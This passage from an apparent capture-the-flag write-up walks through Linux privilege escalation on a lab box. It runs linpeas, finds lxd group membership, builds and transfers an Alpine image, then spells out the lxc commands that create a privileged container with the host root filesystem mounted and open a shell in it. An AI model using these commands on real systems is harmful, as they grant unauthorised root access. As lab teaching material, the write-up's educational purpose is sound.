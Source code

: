 Now we just need to make the script executable running `chmod +x linpeas.sh`
Then we just run it by doing `./linpeas.sh`.

Linpeas found a container running:

![](https://i.imgur.com/172CGgo.png)

and if we run the `id` command for our current user, we see that we have `lxd` permissions:

![](https://i.imgur.com/phE8JhR.png)


This reminds me of a TryHackMe box I solved not long ago that also involved containers and using `alpine` to get root. You can check that post [here](https://www.tzero86bits.tk/posts/gameserver_writeup/) to get more details on the process to exploit this and a bit of information on LXD and linux containers.


We first need to clone the alpine builder script: `git clone https://github.com/saghul/lxd-alpine-builder`. Once cloned, browse into that lxd directory and run `sudo ./build-alpine` to bake the image.

If you then look into the directory, you'll see a new file:

![](https://i.imgur.com/18rmpFy.png)

Now let's start a python local server on that folder so we can upload the file to the machine and then wget that file:

![](https://i.imgur.com/Qejl1tq.png)

Ok, now we need to create a new container, add a device to it that will mount the file system with privileges which will give us root access.

To do that we run the following command in our remote session:

`lxc image import alpine-v3.12-x86_64-20201023_1151.tar.gz --alias tzero86`

Note: I opted to browse to ash's home directory, created a folder and uploaded the image there:

![](https://i.imgur.com/sztUzle.png)

Once there we initialize our image with privileges:

`lxc init tzero86 rootz -c security.privileged=true`

![](https://i.imgur.com/SttX1lL.png)


Once there we add a device to our box that will mount the file system with privileges:

`lxc config device add rootz myRoot disk source=/ path=/mnt/root recursive=true`

Then we start the container:

`lxc start rootz`

and we execute it:

`lxc exec rootz /bin/sh`
